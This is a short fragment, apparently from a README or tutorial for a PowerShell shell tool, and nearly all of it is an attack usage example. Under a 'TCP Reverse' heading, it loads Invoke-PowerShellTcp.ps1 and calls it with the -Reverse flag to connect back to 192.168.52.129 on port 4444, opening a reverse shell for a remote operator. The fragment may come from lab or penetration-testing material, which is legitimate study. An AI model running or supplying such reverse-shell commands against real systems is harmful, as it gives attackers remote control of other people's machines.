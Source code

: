 `TCP Reverse`
    PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
    PS F:\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.52.129 -Port 4444
